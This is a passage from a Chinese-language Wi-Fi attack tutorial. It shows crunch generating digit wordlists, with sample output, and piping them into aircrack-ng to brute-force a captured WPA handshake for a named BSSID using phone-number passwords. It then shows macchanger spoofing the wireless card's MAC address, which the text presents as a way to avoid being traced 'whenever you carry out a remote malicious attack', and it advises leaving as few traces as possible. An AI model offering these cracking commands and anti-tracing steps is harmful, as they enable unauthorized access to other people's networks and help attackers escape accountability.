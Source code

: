 ```bash
# 语法 8 8 是生成密码的最小长度和最大长度
# 01234567890 是组合/排列构成密码的一组字符
crunch 8 8 0123456789
Crunch 现在将生成以下数据量：900000000字节
858 MB
0 GB
0 TB
0 PB
Crunch 现在将生成以下行数：100000000
00000000
00000001
00000002
00000003
00000004
00000005
00000006
00000007
00000008
00000009
...
99999999
```

我们可以将 `crunch` 的输出作为 `aircrack-ng` 的输入，使用它生成的密码作为我们的单词列表。 这里我们使用 `crunch` 特殊规则字符 `%` 来表示数字。 此命令尝试破解10位电话号码的 WPA 密码（使用 crunch 即时生成的 102GB 的号码）：

```bash
# 我们也可以使用 -t "@^%,"  使用模式 '@' 替换小写 ',' － 替换大写
# '%' －替换数字以及 '^' － 替换特殊字符
# *************** 不要忘记最后的 '-'
crunch 10 10 -t "%%%%%%%%%%" | aircrack-ng -a2 capture.cap -b 58:98:35:CB:A2:77 -w -
```

## 利用 `macchanger` 保护你的个人信息

每当您使用 Wi-Fi 进行任何远程恶意攻击时，最好将你 Wi-Fi 设备的 MAC 地址进行伪装，避免被人通过网络流量里的设备信息找到你。

这是利用 `macchanger` 的一个小尝试：

```bash
# 下载 MAC changer
sudo apt-get install macchanger

# 关闭设备
sudo ifconfig wlan0 down

# 改变 mac
# -A 为有效的供应商分配一个随机的MAC w/a
# -r 让它真正随机
# -p 将其恢复到原始的硬件MAC
sudo macchanger -A wlan0

# 启动设备
sudo ifconfig wlan0 up
```

如果你有多张无线网卡，最好把所有的设备都改一遍。 或者当你尝试抓取 handshake 时干脆把不用的设备都关掉，尽可能少地留下痕迹。 请注意，重启后伪装的设备信息会恢复。